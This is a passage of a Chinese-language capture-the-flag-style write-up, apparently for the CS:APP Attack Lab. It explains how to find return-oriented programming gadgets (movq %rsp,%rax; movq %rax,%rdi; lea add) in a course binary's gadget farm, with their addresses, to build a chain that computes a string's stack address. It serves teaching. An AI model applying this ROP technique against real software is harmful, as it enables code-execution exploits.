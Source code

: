 我们逐句进行改写。

##### 5.4.1 第 1 句指令

```asm
mov    $0x5561dca8,%rdi
```

由 [5.3](#53-解题思路) 节的分析，我们不能直接得到字符串的地址，因此需要利用 `movq`、`movl` 等指令将 `%rsp` 的值传给某个寄存器。

当然，此时这个寄存器保存的值并不是字符串的地址。于是我们需要为这个地址加上一个偏移量 `offset`，从而得到字符串的实际地址。但字符串将保存在所有栈中保存内容的最后，因此 `offset` 的值我们最后才能得到。

###### 5.4.1.1 第 3 个 gadget

注意到 gadget farm 中函数 `addval_190` 对应的汇编语句：

```text
0000000000401a03 <addval_190>:
  401a03:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:   c3                      retq
```

其中机器码 `48 89 e0 c3` 对应汇编指令：

```asm
movq   %rsp,%rax
ret
```

该指令的地址为 `0x401a06`。

###### 5.4.1.2 第 2 个 gadget

由 [4.4.1.2](#4412-第-2-个-gadget) 节，第 2 个 gadget 中有汇编指令：

```asm
movq   %rax,%rdi
ret
```

该指令的地址为 `0x4019a2`。

###### 5.4.1.3 第 4 个 gadget

惊奇地注意到 gadget farm 中函数 `add_xy` 对应的汇编语句（竟然还有这种函数）：

```text
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```

其对应汇编指令：

```asm
leaq   (%rdi,%rsi,1),%rax
ret
```

该指令的地址为 `0x4019d6`。
